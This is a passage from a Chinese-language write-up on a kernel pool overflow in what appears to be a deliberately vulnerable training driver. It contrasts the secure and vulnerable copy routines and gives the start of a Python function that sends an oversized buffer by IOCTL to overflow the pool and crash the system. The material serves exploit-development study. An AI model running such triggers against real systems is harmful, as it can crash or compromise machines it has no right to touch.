 ```
#endif



        if (KernelBuffer) `{`

            DbgPrint("[+] Freeing Pool chunk\n");

            DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));

            DbgPrint("[+] Pool Chunk: 0x%p\n", KernelBuffer);



            // Free the allocated Pool chunk

            ExFreePoolWithTag(KernelBuffer, (ULONG)POOL_TAG);

            KernelBuffer = NULL;

        `}`

    `}`

    __except (EXCEPTION_EXECUTE_HANDLER) `{`

        Status = GetExceptionCode();

        DbgPrint("[-] Exception Code: 0x%X\n", Status);

    `}`



    return Status;

`}`
```

通过代码中的secure版本以及vuln版本可以很直观的看到漏洞的成因，主要是在调用RtlCopyMemory函数时第三个参数size的来源，secure版本中size是内核池的大小，而vuln的版本中size是用户态中直接传入，可以由用户控制，若传入的size大于内存池的大小就会覆盖到下一块内存池，导致池溢出，从而造成蓝屏。



## 漏洞触发

触发该漏洞的主要代码如下所示，可以看到传入的字符串长度为512，而池的大小为504，所以会池溢出覆盖到下一个池的头结构。

```
def trigger(hDevice, dwIoControlCode):

    """Create evil buf and send IOCTL"""



    evilbuf = create_string_buffer("A"*(504+8))

    lpInBuffer = addressof(evilbuf)

    nInBufferSize = 504+8

    outputbuff=create_string_buffer("A"*(0x800))

    lpOutBuffer = addressof(outputbuff)

```